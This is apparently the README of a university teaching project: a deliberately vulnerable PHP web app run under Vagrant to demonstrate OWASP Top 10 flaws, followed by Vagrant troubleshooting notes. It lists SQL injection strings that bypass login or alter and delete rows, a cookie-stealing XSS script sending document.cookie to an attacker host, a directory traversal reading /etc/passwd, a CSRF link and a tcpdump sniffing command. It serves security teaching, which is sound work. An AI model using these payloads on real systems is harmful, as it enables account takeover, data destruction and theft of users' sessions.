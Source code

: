 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
<script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * try this: http://192.168.33.10/zcu/list/get_file.php?file=../index.php
  * or this: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd


## Where to go next
See https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project
____


### Vagrant troubleshooting (Fedora 23)

#### 1) Failed to mount folders in Linux guest.
```bash
Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not
available. Please verify that the guest additions are properly installed in the guest and  can
work properly. The command attempted was:
mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
...
/sbin/mount.vboxsf: mounting failed with the error: No such device
```
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision

#### 2) Building the main Guest Additions module fail --> sync folder not mounted
```bash
...
Installing Virtualbox Guest Additions 5.0.10 - guest version is unknown
Verifying archive integrity... All good.
Uncompressing VirtualBox 5.0.10 Guest Additions for Linux............
VirtualBox Guest Additions installer
Removing installed version 5.0.10 of VirtualBox Guest Additions...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Copying additional installer modules ...
Installing additional modules ...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Building the VirtualBox Guest Additions kernel modules
The headers for the current running kernel were not found. If the following
module compilation fails then this could be the reason.
The missing package can be probably installed with
yum install kernel-devel-3.10.0-229.14.1.el7.x86_64

Building the main Guest Additions module[FAILED]
(Look at /var/log/vboxadd-install.log to find out what went wrong)
...
```
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
